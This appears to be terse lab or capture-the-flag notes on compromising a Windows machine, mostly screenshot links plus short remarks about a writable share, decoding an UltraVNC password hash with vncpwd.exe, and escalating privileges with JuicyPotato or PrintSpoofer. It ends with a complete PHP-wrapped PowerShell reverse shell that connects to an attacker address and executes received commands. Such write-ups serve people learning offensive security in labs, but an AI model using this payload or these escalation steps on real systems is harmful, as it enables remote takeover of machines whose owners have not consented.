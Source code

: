 ![image](https://github.com/user-attachments/assets/aaef55ca-1701-4134-84f0-ae7e2c5694d7)
![image](https://github.com/user-attachments/assets/bacf8f6f-f715-40be-92a2-f17d29b7138f)
![image](https://github.com/user-attachments/assets/b7fe6734-b595-41ef-bec5-01d1cb6f6f0a)
![image](https://github.com/user-attachments/assets/785541b9-3d93-4926-b9e0-01614974c2d1)
![image](https://github.com/user-attachments/assets/e9f4f2ad-11b1-4255-8fb5-54eaeadcbf11)
![image](https://github.com/user-attachments/assets/84239f12-d0f1-4d80-a8a4-cb59e9c6e070)
![image](https://github.com/user-attachments/assets/31b934e2-373d-4f05-89f7-41cb5dae6dbb)
![image](https://github.com/user-attachments/assets/47d1cb0c-8333-4c5a-9fe7-468873f4ab23)
![image](https://github.com/user-attachments/assets/02cfbfbd-9180-46c1-b2b0-4e41d34f82eb)
![image](https://github.com/user-attachments/assets/8bc7d2d3-9dd9-49f6-9c86-0484378ec013)
![image](https://github.com/user-attachments/assets/e7854b98-2cbe-486b-8702-d1e9e324f2ba)

Look around, cannot find entry point. Take a break.

Continue. Redeploy machine. Different IP. Check if share is writable.

![image](https://github.com/user-attachments/assets/e8c6cc76-5c96-4fc6-8f52-4637c10d16f5)
![image](https://github.com/user-attachments/assets/951a4363-5f7b-4d40-bc5f-ef3f1d9d4759)
![image](https://github.com/user-attachments/assets/42d93ccc-cfa9-4203-b68a-5f8914c4619e)
![image](https://github.com/user-attachments/assets/93cbc5c3-d6f0-4f45-8005-c17834f59896)
![image](https://github.com/user-attachments/assets/0ee08ecc-9a04-4c22-b8c7-17c436a54aac)
![image](https://github.com/user-attachments/assets/01cccb43-348c-4275-b995-ef1506f60c62)
![image](https://github.com/user-attachments/assets/c2c8bf3a-a8c5-4ada-9853-a8193400cdf3)
![image](https://github.com/user-attachments/assets/d31c38c4-ffd2-401a-8f23-616a03e174c9)
![image](https://github.com/user-attachments/assets/d995aaab-3b9f-4586-842a-0a30e1031329)

Unable to VNC into machine with the decoded password.

Machine is x64-based PC. SeImpersonatePrivilege Enabled. User JuicyPotato.exe or PrintSpoofer64.exe for PrivEsc.

Decody VNC password hash: upload vncpwd.exe to machine and run against ultravnc.ini Or on Kali run wine vncpwd.exe <Password-hash>


Windows PHP reverse shell
```bash
<?php
$cmd = "powershell -NoP -NonI -W Hidden -Exec Bypass -Command ";
$cmd .= "\"\$client = New-Object System.Net.Sockets.TCPClient('10.4.95.140',5900);";
$cmd .= "\$stream = \$client.GetStream();";
$cmd .= "[byte[]]\$bytes = 0..65535|%{0};";
$cmd .= "while((\$i = \$stream.Read(\$bytes, 0, \$bytes.Length)) -ne 0){";
$cmd .= "\$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString(\$bytes,0, \$i);";
$cmd .= "\$sendback = (iex \$data 2>&1 | Out-String );";
$cmd .= "\$sendback2 = \$sendback + 'PS ' + (pwd).Path + '> ';";
$cmd .= "\$sendbyte = ([text.encoding]::ASCII).GetBytes(\$sendback2);";
$cmd .= "\$stream.Write(\$sendbyte,0,\$sendbyte.Length);";
$cmd .= "\$stream.Flush() }\";";
exec($cmd);
?>
```
